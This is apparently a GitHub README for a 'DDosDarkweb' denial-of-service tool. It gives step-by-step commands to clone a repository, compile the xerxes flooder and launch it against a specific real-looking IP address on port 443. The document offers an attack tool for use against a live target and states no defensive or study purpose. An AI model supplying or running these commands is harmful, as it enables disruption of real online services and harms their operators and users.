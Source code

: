 # DDosDarkweb
DDoS Attack means "Distributed Denial-of-Service (DDoS) Attack" and it is a cybercrime in which the attacker floods a server with internet traffic to prevent users from accessing connected online services and sites.

<h3>DDos DarkWeb Tool</h3>

<B> Installation </B>

GIT repositories

    git clone https://github.com/H1R0GH057/Anonymous.git
    
Go to DIRECTORY

     cd Anonymous
     
Execute

      chmod +x *
      
Compile

      gcc -o xerxes xerxes.c
      
      
RUN

     ./xerxes 142.250.196.14 443
     
     
     
<b><H2>Powered By</b></h2>

![image](https://github.com/HackWithSumit/DDosDarkweb/assets/120317751/d2b0adb4-98f6-41ca-9f06-f61c64b2c3fe)

